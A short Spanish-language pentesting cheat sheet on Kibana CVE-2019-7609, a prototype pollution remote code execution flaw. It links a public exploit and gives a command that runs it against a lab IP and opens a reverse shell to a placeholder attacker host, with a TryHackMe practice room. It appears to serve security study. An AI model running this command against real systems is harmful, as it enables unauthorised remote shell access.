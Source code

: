# KIBANA VULNERABILITIES

## PROTOTYPE POLLUTION RCE (CVE-2019-7609)

Afecta a versiones **kibana < 6.6.0**, puedes ver la version en el dashboard en la pestaña de **management**.

exploit:

- [https://github.com/LandGrey/CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609)

```bash
python CVE-2019-7609-kibana-rce.py -u http://10.10.10.10:5601 -host <IP_KALI> -port 4545 --shell
```

**PRACTICAR**

- [https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)